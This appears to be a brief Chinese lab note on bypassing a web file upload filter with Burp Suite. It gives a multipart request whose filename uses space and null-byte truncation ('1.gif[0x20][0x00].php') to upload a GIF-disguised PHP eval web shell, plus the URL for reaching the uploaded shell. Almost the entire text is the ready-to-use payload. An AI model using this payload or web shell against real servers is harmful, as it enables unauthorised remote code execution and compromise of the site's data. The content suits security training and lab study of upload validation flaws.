 

只能用burp操作, python不行 `[0x20]`是空格，`[0x00]`是`\0`
```sh
# 抓包发送时改成这样 1.gif[0x20][0x00].php
------WebKitFormBoundaryE03siMgXSmvVi3Jl
Content-Disposition: form-data; name="file_upload"; filename="1.gif[0x20][0x00].php"
Content-Type: image/gif

GIF89a<?php @eval($_POST['cmd']); ?>
# 访问时也改成这样
http://your-ip:8080/uploadfiles/1.gif[0x20][0x00].php
```